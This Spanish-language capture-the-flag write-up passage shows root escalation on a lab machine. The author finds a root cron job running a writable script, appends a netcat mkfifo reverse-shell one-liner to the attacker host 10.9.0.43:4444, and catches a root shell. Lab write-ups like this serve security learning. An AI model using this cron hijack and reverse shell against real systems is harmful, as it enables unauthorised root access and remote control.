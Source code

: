 
## Bandera root

- Búsqueda de vulnerabilidades con el siguiente comando:

~~~css
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
~~~

- De acuerdo con lo anterior encontramos un posible vector en el script ***id.sh***, el cual procedemos a listar y nos encotramos que hace llamado al archivo ***test.txt***:

~~~css
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
~~~

- Procedemos a modificar le script anterior para que nos ejecute una reverse shell a la máquina atacante con el siguiente comando:

~~~css
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.43 4444 >/tmp/f" >> /home/jack/id.sh
~~~

- Nos ponemos en escucha por el puerto ***4444*** y ejecutamos el script, ganando nuestra shell como usuario root y su respectiva bandera:
  
~~~css
└─# nc -nlvp 4444                                                                         
listening on [any] 4444 ...
connect to [10.9.0.43] from (UNKNOWN) [10.10.25.173] 46032
sh: 0: can't access tty; job control turned off
# whoami
root
~~~
